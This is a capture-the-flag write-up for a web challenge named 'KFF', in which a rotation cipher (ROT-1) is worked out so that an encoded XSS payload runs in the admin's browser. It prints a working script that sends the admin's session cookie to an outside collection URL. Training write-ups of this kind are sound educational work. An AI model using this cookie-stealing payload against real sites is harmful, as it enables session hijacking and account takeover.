 # KFF

## Problem

```
This encoding application seems to have a massive oversight.

Can you exploit it and steal the Admins session?
```

We get a big lock image with two prompts that encode a message, one for viewing ourselves our encoded message and another one to send the encryped message to the admin. 
Smells like [XSS](https://owasp.org/www-community/attacks/xss/), doesn't it?

# Solution

Let's try to encode some messages. If we say `hello`, we receive `ifmmp`. It looks like we have a [ROT13](https://en.wikipedia.org/wiki/ROT13) variant cipher instead of an encoding, right?. 

![1](../images/kff_1.png)  

However, if we try with symbols, they also rotate, therefore we are talking about a variant of [ROT47](https://en.wikipedia.org/wiki/ROT13#Variants) encryption with a rotation we don't know yet.

![2](../images/kff_2.png)

We can use [Cyberchef](https://gchq.github.io/CyberChef/)'s ROT47 tool to play around with the ciphertext until we decrypt it:

![3](../images/kff_6.png)

We find the ciphertext being decrypted as ROT1 but what we actually need is the oposite to correctly encrypt our payload:

![4](../images/kff_7.png)

We finally discover the encryption is ROT-1 (ROT47(-48)). Let's try then to get some XSS working!


![5](../images/kff_4.png)

... And we were right!!!

Now that we finally have our PoC working, we need to send the payload to the admin in order to steal their session cookie. We can do this with the following payload, where `document.location=<our website>?cookie=` is the listening server we control with a cookie request URL encoded and `document.cookie` is the cookie we want to steal from the admin:  

```
<script>document.location="https://enx0ouxtov1d1z8.m.pipedream.net?cookie="+document.cookie;</script>
```



![6](../images/kff_5.png)

[Go back to Web challenges](./)
